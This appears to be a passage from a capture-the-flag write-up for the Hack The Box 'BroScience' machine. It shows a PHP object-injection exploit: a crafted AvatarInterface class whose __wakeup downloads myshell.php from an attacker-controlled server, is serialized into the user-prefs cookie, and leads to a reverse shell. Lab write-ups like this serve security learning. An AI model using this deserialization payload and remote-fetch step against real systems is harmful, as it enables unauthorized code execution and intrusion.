 It is a base64-serialized PHP object. So, analyzing the php code we retrieved before, we note that inside /includes/utils.php there is an *AvatarInterface* class, whose \_\_wakeUp() function creates a new *Avatar* instance and saves it in a path.
Then, by creating a custom AvatarInterface that calls a server we are hosting, request an arbitrary file we have and saves it in the target webserver, then we could think of requesting such file.

Specifically, if AvatarInterface is defined in this way:

```
class AvatarInterface {
    public $tmp = "http://<IP>:<port>/myshell.php";
    public $imgPath = "./myshell.php";

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
```

we are setting the path to a server we own and with a file (myshell.php), which will become handy for creating a reverse shell.

Indeed, if we echo a serialized AvatarInterface object (```echo urlencode(base64_encode(serialize(new AvatarInterface)));```), we put the result in the *user-prefs* cookie, we launch our server and then we make the request with the fresh cookie, then, if all is ok, our server will receive a request for myshell.php.

Next, create a new server which is going to listen to the port set in AvatarInterface, call *https://broscience.htb/myshell.php* et voila' - a rev shell will spawn.

![rev-shell](/images/htb_broscience/img8.png)

---